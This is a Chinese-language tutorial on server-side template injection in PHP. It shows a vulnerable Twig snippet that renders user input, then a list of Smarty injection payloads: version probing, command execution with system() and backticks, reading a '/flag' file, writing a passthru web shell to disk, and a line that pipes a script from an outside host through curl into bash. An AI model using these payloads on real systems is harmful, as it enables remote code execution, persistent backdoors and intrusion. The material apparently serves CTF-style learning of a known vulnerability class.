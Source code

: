 ## 原理：
首先，我们知道，在我们的网页开发的时候，我们通常会通过我们的模板来简化我们的输入和输出，尤其是对于那些**前后端不分离**的项目。于是，我们就可以通过我们的模板注入来完成我们的对应的内容。

通常来说，我们的 PHP 模板按照如下的形式来进行：
```php
include('vendor/twig/twig/lib/Twig/Autoloader.php');
if (isset($_POST['email'])) {
    $email=$_POST['email'];
 
    Twig_Autoloader::register();
    try {
        $loader = new Twig_Loader_String();
        $twig = new Twig_Environment($loader);
 
        $result= $twig->render("Thanks {$email}. You will be notified soon.");
        echo $result;
 
    } catch (Exception $e) {
        echo $e->getMessage();
    }
}
```

其中，我们的 result 就是我们将我们的输入进行模板渲染后能够得到的结果。我们的 PHP 后台，通过 `$twig->render("Thanks{$email})` 解析了前台输入的内容  




## 攻击思路：



我们的 smarty 注入的格式如下所示：
```
{内部的变量} ---输出内部变量

{$7*7}

{$smarty.version}//第一步，先看版本

{php} echo `id`{/php}---模板内写入php代码

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']);?>",self::clearConfig())} ---模板内写文件

{system('ls')}//第二步，使用我们的指令
{if show_source('/flag')}{/if}---RCE

{system('curl http://d.y1ng.vip:12390/dev.txt|bash')}
```

## SSTI 发生点：
SSTI 发生点发生在用户的可控的地方，用户输入什么，页面返回什么。例如我们的**注册用户名，输入用户名登录，页面返回 `welcome aaa`**. 

我们可以通过修改我们的请求头来做到类似的伪造。